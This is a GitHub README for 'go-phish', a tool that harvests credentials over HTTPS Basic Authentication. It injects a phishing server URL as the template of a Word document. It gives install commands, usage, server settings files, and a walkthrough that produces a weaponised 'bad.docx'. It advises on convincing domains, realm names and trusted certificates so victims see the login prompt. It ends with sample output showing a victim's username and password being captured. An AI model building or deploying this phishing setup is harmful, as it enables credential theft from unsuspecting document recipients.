# go-phish

go-phish is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 

The power of go-phish is best demonstrated by setting a Word document's template to a go-phish URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using the go-phish's `-url [url]`, `-docx [in .docx]`, and 
`-badocx [out .docx]` options.

### Download
Operating specific packages can be download [from here](#).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf go-phish*.tar.gz
$ cd go-phish*
$ cp go-phish /usr/local/bin
```

### Usage
```text
$ go-phish --help
                              __    _      __
     ____ _____        ____  / /_  (_)____/ /_
    / __ \/ __ \______/ __ \/ __ \/ / ___/ __ \
   / /_/ / /_/ /_____/ /_/ / / / / (__  ) / / /
   \__, /\____/     / .___/_/ /_/_/____/_/ /_/
  /____/           /_/ 	An SSL Enabled Basic Auth Credential Harvester
                        with a Word Document Template URL Injector

  Start the server  : go-phish -s settings.json -c credentials.json
  Inject a template : go-phish -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The go-phish URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the go-phish server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a go-phish URL in a document, or anywhere
else your heart desires. go-phish does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the go-phish server URL.

Now run go-phish with your document and URL:

```text
$ go-phish -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your go-phish server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./go-phish
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```